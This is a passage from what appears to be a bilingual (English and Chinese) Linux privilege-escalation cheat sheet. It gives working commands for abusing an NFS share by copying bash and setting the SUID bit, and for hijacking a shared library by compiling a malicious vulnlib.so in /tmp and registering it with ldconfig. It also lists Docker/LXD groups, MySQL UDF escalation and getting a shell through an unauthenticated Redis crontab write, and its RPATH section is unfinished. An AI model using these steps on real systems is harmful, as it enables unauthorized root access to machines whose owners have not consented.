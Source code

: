 ```
# create dir
mkdir /tmp/nfsdir  

# mount directory 
mount -t nfs 10.10.10.10:/shared /tmp/nfsdir 
cd /tmp/nfsdir

# copy wanted shell 
cp /bin/bash . 	

# set suid permission
chmod +s bash 	
```

#### Shared Library

* 1. ldconfig


Identify shared libraries with `ldd`

使用`ldd`识别共享库

```
$ ldd /opt/binary
    linux-vdso.so.1 (0x00007ffe961cd000)
    vulnlib.so.8 => /usr/lib/vulnlib.so.8 (0x00007fa55e55a000)
    /lib64/ld-linux-x86-64.so.2 => /usr/lib64/ld-linux-x86-64.so.2 (0x00007fa55e6c8000)        
```

Create a library in `/tmp` and activate the path.

在`/tmp`中创建一个库并激活路径

```
gcc –Wall –fPIC –shared –o vulnlib.so /tmp/vulnlib.c
echo "/tmp/" > /etc/ld.so.conf.d/exploit.conf && ldconfig -l /tmp/vulnlib.so
/opt/binary
```

* 2. RPATH

（未完）


#### Groups

* Docker
* LXC/LXD


#### root进程

* 以root权限运行的进程
  * MySQL UDF提权
  * redis 未授权 - 利用crontab写定时任务 getshell(该shell继承redis权限)
  * ...
